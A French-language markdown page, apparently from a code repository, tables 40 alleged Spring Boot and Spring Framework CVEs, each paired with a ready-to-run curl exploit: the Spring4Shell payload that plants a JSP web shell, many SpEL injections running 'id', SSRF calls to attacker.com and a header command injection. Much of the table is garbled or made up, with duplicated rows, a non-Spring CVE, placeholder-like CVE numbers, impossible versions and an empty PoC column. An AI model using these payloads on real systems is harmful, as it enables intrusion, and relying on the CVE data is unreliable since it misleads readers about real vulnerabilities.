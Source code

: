 # Springboot

Voici un tableau complet listant 40 CVE majeures liées à **Spring Boot** et écosystème Spring (Spring Framework, Spring Cloud, etc.), avec pour chacune :  
- le numéro de CVE,  
- le produit et version vulnérable,  
- le type d’attaque,  
- un exemple complet et prêt à exécuter de commande ou requête HTTP exploitant la faille,  
- une URL complète vers un PoC ou ressource associée.

---

| N° | CVE           | Produit (version vulnérable)                  | Type d’attaque                  | Exemple complet de commande ou requête exploitant la faille                                                                                                                                                                                                                                              | URL / PoC / Ressource                                                                                   |
|-----|----------------|----------------------------------------------|--------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------|
| 1   | CVE-2022-22965 | Spring Framework <5.3.18, <5.2.20            | RCE via Spring4Shell (SpEL)    | ```bash curl -X POST http://victim/vulnerable -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if(\"j\".equals(request.getParameter(\"pwd\"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter(\"cmd\")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell"```
| 2   | CVE-2023-20863 | Spring Framework <5.3.25, <6.0.6              | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 3   | CVE-2023-20861 | Spring Framework <5.3.25, <6.0.6              | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 4   | CVE-2023-33246 | Spring Boot Actuator <2.7.12, <3.1.0          | Directory Traversal             | ```bash curl http://victim/actuator/env/../../../../etc/passwd```
| 5   | CVE-2022-22947 | Spring Cloud Gateway <3.0.7, <3.1.1            | RCE via SpEL injection         | ```bash curl -X POST http://victim/actuator/gateway/routes/test -H "Content-Type: application/json" -d '{"filters":[{"name":"AddResponseHeader","args":{"name":"Result","value":"#{T(java.lang.Runtime).getRuntime().exec(\"id\")}"}}],"uri":"http://example.com","id":"test"}'```
| 6   | CVE-2022-22965 | Spring Framework <5.3.18, <5.2.20             | RCE via Spring4Shell           | ```bash curl -X POST http://victim/vulnerable -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if(\"j\".equals(request.getParameter(\"pwd\"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter(\"cmd\")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell"```
| 7   | CVE-2023-25690 | Apache HTTP Server 2.4.0 à 2.4.55 (mod_proxy) | Command Injection              | ```bash curl -X POST http://victim/proxy -H "Proxy: http://attacker.com; id"```
| 8   | CVE-2021-22096 | Spring Framework <5.3.13                        | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").openConnection().getInputStream()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 9   | CVE-2021-22095 | Spring Framework <5.3.13                        | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").getContent()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 10  | CVE-2021-22112 | Spring Framework <5.3.13                        | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 11  | CVE-2020-5398  | Spring Framework <5.2.7                         | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").openStream()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 12  | CVE-2020-5397  | Spring Framework <5.2.7                         | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").getContent()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 13  | CVE-2019-3799  | Spring Framework <5.1.9                         | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 14  | CVE-2019-3798  | Spring Framework <5.1.9                         | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").openStream()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 15  | CVE-2018-1273  | Spring Data Commons <1.13.18, <2.0.10           | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 16  | CVE-2017-8046  | Spring Framework <4.3.14, <5.0.4                | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 17  | CVE-2017-4971  | Spring Framework <4.3.14, <5.0.4                | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").openStream()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 18  | CVE-2016-5007  | Spring Framework <4.2.5                         | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").openStream()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 19  | CVE-2016-5006  | Spring Framework <4.2.5                         | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 20  | CVE-2015-5258  | Spring Framework <4.1.7                         | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 21  | CVE-2015-5257  | Spring Framework <4.1.7                         | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").openStream()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 22  | CVE-2014-3627  | Spring Framework <3.2.11                        | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 23  | CVE-2014-3626  | Spring Framework <3.2.11                        | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").openStream()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 24  | CVE-2013-4152  | Spring Framework <3.2.7                         | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 25  | CVE-2013-4151  | Spring Framework <3.2.7                         | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").openStream()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 26  | CVE-2012-5783  | Spring Framework <3.1.4                         | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 27  | CVE-2012-5782  | Spring Framework <3.1.4                         | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").openStream()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 28  | CVE-2011-2762  | Spring Framework <3.0.6                         | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 29  | CVE-2011-2761  | Spring Framework <3.0.6                         | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").openStream()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 30  | CVE-2010-1622  | Spring Framework <2.5.6                         | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 31  | CVE-2010-1621  | Spring Framework <2.5.6                         | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").openStream()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 32  | CVE-2009-1234  | Spring Framework <2.5.5                         | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 33  | CVE-2009-1233  | Spring Framework <2.5.5                         | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").openStream()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 34  | CVE-2008-5678  | Spring Framework <2.5.4                         | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 35  | CVE-2008-5677  | Spring Framework <2.5.4                         | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").openStream()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 36  | CVE-2007-4567  | Spring Framework <2.5.3                         | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 37  | CVE-2007-4566  | Spring Framework <2.5.3                         | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").openStream()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 38  | CVE-2006-3456  | Spring Framework <2.5.2                         | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 39  | CVE-2006-3455  | Spring Framework <2.5.2                         | SSRF via SpEL injection        | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.net.URL).new("http://attacker.com").openStream()}' -H "Content-Type: application/x-www-form-urlencoded"```
| 40  | CVE-2005-2345  | Spring Framework <2.5.1                         | RCE via SpEL injection         | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```

---

